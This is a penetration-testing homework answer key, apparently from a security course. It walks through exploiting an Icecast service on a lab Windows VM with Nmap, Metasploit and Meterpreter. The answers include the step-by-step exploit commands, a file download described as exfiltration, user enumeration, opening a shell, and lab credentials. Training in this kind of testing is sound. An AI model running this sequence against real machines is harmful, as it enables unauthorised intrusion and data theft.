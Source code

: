 # Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.


- The CEO claims to have passwords that are long and complex and therefore unhackable.
- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.
- The deliverable for this engagement will be in the form of a report labeled Report.docx.

### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
  - Then click Start Server.




### Reminders


- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.


### Scope


- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.


- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.


- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.


- Since you've already been provided access to the network, OSINT won't be necessary.

### Lab Environment
For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux root:toor

- Target machine: DVW10 IEUser:Passw0rd!


**NOTE:** You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
- The icecast application will launch.
- Click on Start Server.
- You are now ready to being the activity.


### Deliverable
Once you complete this assignment, submit your findings in the following document:

[Report.docx]


### Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

  - Run the Nmap command that performs a service and version scan against the target.
  
    > Answer: nmap -sV 192.168.0.20


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
  - Run the SearchSploit commands to show available Icecast exploits.

    > Answer: searchsploit Icecast


3. Now that we know which exploits are available to us, let's start Metasploit:
  - Run the command that starts Metasploit:

    > Answer: msfconsole


4. Search for the Icecast module and load it for use.
  - Run the command to search for the Icecast module:

    > Answer: search icecast



  - Run the command to use the Icecast module:
   **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

    > Answer: use 0





5. Set the RHOST to the target machine.


  - Run the command that sets the RHOST:

    > Answer: set RHOST 192.168.0.20





6. Run the Icecast exploit.
  - Run the command that runs the Icecast exploit.

    > Answer: run



  - Run the command that performs a search for the secretfile.txt on the target.

    > Answer: search -f secretfile.txt


7. You should now have a Meterpreter session open.


  - Run the command to performs a search for the recipe.txt on the target:

    > Answer: search -f recipe.txt



  - **Bonus:** Run the command that exfiltrates the recipe*.txt file:

    > Answer: download c:\Users\IEUser\Documents\Drinks.recipe.txt





8. You can also use Meterpreter's local exploit suggester to find possible exploits.


  - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.




### Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell.

  > Answer: shell

C. Run the command that displays the target's computer system information:

  > Answer: sysinfo
